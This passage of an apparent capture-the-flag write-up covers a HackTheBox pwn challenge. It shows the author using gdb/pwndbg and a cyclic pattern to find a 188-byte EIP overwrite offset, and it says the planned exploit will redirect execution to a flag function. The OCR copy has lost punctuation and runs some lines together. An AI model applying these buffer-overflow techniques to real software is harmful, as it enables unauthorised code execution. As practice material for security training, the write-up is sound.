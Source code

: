 The aforementioned if statement compares the value of the base pointer   8 to 0xdeadbeef and the base pointer   12 to 0xc0ded00d  Therefore  a successful exploit will constitute the control of the foregoing base pointer addresses along with the overwriting of the EIP register to point to the flag   function 

Constructing Exploit
                    

    EIP Offset

The offset of the EIP register overwrite must first be determined  Within GDB  in order to provide an input to a program which prompts the user for a string  the desired string must first be echoed into a file  The contents of this file can then be run within the debugger  Hence  using the cyclic function  a pattern of 200 bytes was echoed into a file called eip overwrite as follows 

   highlight bash   
   0xd4y Writeup     business hackthebox easy windows love                                                                                                                   
      cyclic 200   eip overwrite
   endhighlight   

The contents of this file are then piped into the program with r   eip overwrite 

   highlight bash   
   0xd4y Writeup     business hackthebox challenges pwn easy you know                                                                                                 
      gdb  q   vuln  
pwndbg  loaded 196 commands  Type pwndbg  filter  for a list pwndbg  created  rebase   ida gdb functions  can be used with print break   
Reading symbols from   vuln                                                             
 No debugging symbols found in   vuln                                                                                                                                         
pwndbg  r   eip overwrite  
Starting program   home 0xd4y business hackthebox challenges pwn easy you know vuln   eip overwrite  
You know who are 0xDiablos   
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabs  
aabtaabuaabvaabwaabxaabyaab                                                                                                                                                    
                                                                                                                                                                             
Program received signal SIGSEGV  Segmentation fault   
0x62616177 in                LEGEND  STACK   HEAP   CODE   DATA   RWX   RODATA  
                                                                                  REGISTERS                                                                                  EAX  0xc9                EBX  0x62616175   uaab    
ECX  0xffffffffEDX  0xffffffffEDI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   ESI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   EBP  0x62616176   vaab    
ESP  0xffffd020      xaabyaab   
EIP  0x62616177   waab    
                                                                                   DISASM                                                                                      
Invalid address 0x62616177

The EIP register was successfully overwritten  and the offset can now be calculated with cyclic  l 0x62616177 

pwndbg  cyclic  l 0x62616177  
188
   endhighlight   

Thus  188 bytes can be passed into the buffer before the EIP register is overwritten 
